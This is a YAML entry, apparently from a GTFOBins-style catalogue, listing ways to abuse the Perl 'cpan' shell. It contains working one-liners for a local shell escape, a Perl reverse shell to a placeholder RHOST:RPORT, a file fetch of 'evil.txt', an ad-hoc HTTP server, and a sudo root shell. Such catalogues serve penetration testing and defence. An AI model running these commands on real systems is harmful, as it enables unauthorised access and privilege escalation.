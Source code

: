 ```yaml
---
functions:
  shell:
    - description: cpan lets you execute perl commands with `! command`
      code: |
        cpan
        ! exec '/bin/bash'

  reverse-shell:
    - description: Run ``nc -lvp RPORT`` on the attacker box to receive the shell.
      code: |
        cpan
        ! use Socket; my $i="RHOST"; my $p=RPORT; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};

  file-upload:
    - description: Serve files in the local folder running an HTTP server on port 8080. Install dependency via `cpan HTTP::Server::Simple`.
      code: |
        cpan
        ! use HTTP::Server::Simple; my $server= HTTP::Server::Simple->new(); $server->run();

  file-download:
    - description: Fetch a remote file via HTTP GET request and store it in PWD.
      code: |
        cpan
        ! use File::Fetch; my $file = (File::Fetch->new(uri => 'http://RHOST/evil.txt'))->fetch();

  sudo:
    - code: |
        sudo cpan
        ! exec '/bin/bash'

---
```

